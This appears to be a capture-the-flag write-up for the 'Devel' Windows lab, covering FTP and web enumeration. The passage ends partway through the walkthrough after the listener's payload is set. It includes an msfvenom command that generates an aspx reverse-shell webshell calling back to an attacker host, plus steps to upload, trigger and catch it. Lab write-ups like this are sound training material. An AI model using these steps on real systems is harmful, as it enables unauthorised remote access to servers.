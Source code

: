 ## Devel

### Lab Details 

- Difficulty: Easy
- Type: Windows

#### Tasks
Q1: What is the name of the service is running on TCP port 21 on the target machine?
- run `nmap -sT -T4 -vv -A -p- -oA Devel 10.10.10.5`
- after running nmap we see that FTP is running at port 21
```
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

Q2: Which basic FTP command can be used to upload a single file onto the server?
- `mput` allows file upload


Q3: Are files put into the FTP root available via the webserver?
- Yes, all files upload in FTP can be access in the root directory via `http://10.10.10.5/<your_file>`

Q4: What file extension is executed as a script on this webserver? 
- run ffuf to enum the web app
- `ffuf -u http://10.10.10.5/FUZZ -w /usr/share/wordlists/dirb/common.txt`
- we can see the web app is using aspnet, which aspx (active server pages)
```
<snip>
[Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 316ms]
    * FUZZ: aspnet_client
<snip>
```

Q5: Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?
- can search it in msfconsole
- `msf6 > search type:post platform:windows path:multi/recon` -> post/multi/recon/local_exploit_suggester  

Q6: Get user.txt and root.txt
- Note: network can be very unstable, as i have attempted numerous times with and without msfconsole before working
- getting foothold
 - knowing we can access files that we upload via the root directory, we can upload a webshell to gain the inital foothold
 - generate a webshell using msfvenom
```
$: msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.27 LPORT=9001 -f aspx > shell.aspx
```
-  evoke the shell by visiting the file
```
http://10.10.10.5/shell.aspx -> on a browser or using curl
```
- catch the shell using msfconsole
```
# catch the shell using msfconsole
# need to set payload for the module
msf6 > set payload windows/meterpreter_reverse_tcp
payload => windows/meterpreter_reverse_tcp

```
